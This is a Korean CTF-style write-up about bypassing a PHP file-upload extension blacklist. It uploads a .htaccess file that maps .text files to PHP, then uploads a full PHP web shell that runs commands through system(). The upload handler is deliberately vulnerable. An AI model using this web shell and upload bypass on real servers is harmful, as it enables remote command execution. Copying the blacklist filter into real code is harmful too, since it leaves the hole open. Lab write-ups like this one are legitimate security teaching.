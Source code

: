```yaml
---
title: "[2025-07-27] Apache htaccess"
excerpt: "File Vulnerability advanced"

categories:
  - Problem
tags:
  - [File Vulnerability]

permalink: /Problem/[2025-07-27] Apache htaccess/

toc: true
toc_sticky: true

date: 2025-07-27
last_modified_at: 2025-07-27
---
```


## 🦥 본문

- index.php

```python
<html>
    <head></head>
    <link rel="stylesheet" href="/static/bulma.min.css" />
    <body>
        <div class="container card">
        <div class="card-content">
        <h1 class="title">Online File Box</h1>
        <form action="upload.php" method="post" enctype="multipart/form-data">
            <div class="field">
                <div id="file-js" class="file has-name">
                    <label class="file-label">
                        <input class="file-input" type="file" name="file">
                        <span class="file-cta">
                            <span class="file-label">Choose a file...</span>
                        </span>
                        <span class="file-name">No file uploaded</span>
                    </label>
                </div>
            </div>
            <div class="control">
                <input class="button is-success" type="submit" value="submit">
            </div>
        </form>
        </div>
        </div>
        <script>
            const fileInput = document.querySelector('#file-js input[type=file]');
            fileInput.onchange = () => {
                if (fileInput.files.length > 0) {
                const fileName = document.querySelector('#file-js .file-name');
                fileName.textContent = fileInput.files[0].name;
                }
            }
        </script>
    </body>
</html>
```

위의 코드는 `<input type=”file”>` 변경을 감지하여 `.file-name` 요소에 파일 이름을 표시하는 코드이다. 즉, 사용자가 업로드할 파일을 선택하면 파일 이름을 화면에 표시한다.

- upload.php

```python
<?php
$deniedExts = array("php", "php3", "php4", "php5", "pht", "phtml");

if (isset($_FILES)) {
    $file = $_FILES["file"];
    $error = $file["error"];
    $name = $file["name"];
    $tmp_name = $file["tmp_name"];
   
    if ( $error > 0 ) {
        echo "Error: " . $error . "<br>";
    }else {
        $temp = explode(".", $name);
        $extension = end($temp);
       
        if(in_array($extension, $deniedExts)){
            die($extension . " extension file is not allowed to upload ! ");
        }else{
            move_uploaded_file($tmp_name, "upload/" . $name);
            echo "Stored in: <a href='/upload/{$name}'>/upload/{$name}</a>";
        }
    }
}else {
    echo "File is not selected";
}
?>
```

위의 코드는 파일을 업로드했을 때 작동하는 코드이다. 

`<input type=”file”>` 에서 정보를 가져온다.

- $file은 해당 파일 정보들
- $file["error"]는 업로드 도중 발생한 에러 코드
- $file["name"]는 파일명
- $file["tmp_name"]는 파일이 임시로 저장한 파일 경로

explode()를 통해 `.` 를 구분하여 쪼개고 마지막 부분이 확장자가 된다. 확장자가 필터링을 통과하면 제대로 저장이 되고 저장된 위치를 이용자에게 보내준다. 즉, 필터링을 우회해야 한다.

제목 처럼 .htaccess 파일을 이용해야 한다. 해당 .htaccess를 덮어씌워서 확장자를 우회해야 한다.

### 풀이

1. .htaccess 파일을 만든다.
    
    ```python
    ADDType application/x-httpd-php .text
    ```
    
    - text 파일을 php 파일로 인식하게 한다.
2. .htaccess를 업로드 하여 위와 같은 코드를 설정한다
3. 웹셸 코드를 text 형태로 업로드한다
    - hack.text
    
    ```python
    <html>
    <body>
    <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
    <input type="TEXT" name="cmd" autofocus id="cmd" size="80">
    <input type="SUBMIT" value="Execute">
    </form>
    <pre>
    <?php
        if(isset($_GET['cmd']))
        {
            system($_GET['cmd']);
        }
    ?>
    </pre>
    </body>
    </html>
    ```
    
4. 설치된 주소로 들어가서 웹셸을 실행시키고 flag를 획득한다.